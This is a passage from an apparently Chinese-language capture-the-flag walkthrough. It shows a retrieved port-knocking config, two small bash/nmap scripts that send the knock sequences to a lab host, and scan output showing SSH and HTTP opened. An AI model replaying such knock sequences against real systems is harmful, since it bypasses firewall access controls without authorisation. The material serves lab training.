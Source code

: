 get 命令 把 关键文件下载到本地，再找到了关键文件 config，发现可能是 knock 敲开端口的规则

```
[openHTTP]
	sequence    = 159,27391,4
	seq_timeout = 100
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
	tcpflags    = syn

[closeHTTP]
	sequence    = 4,27391,159
	seq_timeout = 100
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
	tcpflags    = syn

[openSSH]
	sequence    = 17301,28504,9999
	seq_timeout = 100
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9999,28504,17301
	seq_timeout = 100
	command     = /sbin/iptables -D iNPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```

## knock敲开端口

此时可以些脚本敲开，也可以下载 knock 命令 和 用 nc 敲开

knockhttp.sh

```sh
#!/bin/bash

for PORT in 159 27391 4;do nmap -Pn 192.168.2.6  -p  $PORT;

done
```

knockssh.sh

```bash
#!/bin/bash

for PORT in 17301 28504 9999;do nmap -Pn 192.168.2.6  -p  $PORT;

done
```

运行脚本后发现 22 和 80 端口都开放了

```bash
└─# nmap -p80,22 192.168.2.6   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 22:13 EDT
Nmap scan report for 192.168.2.6 (192.168.2.6)
Host is up (0.00037s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
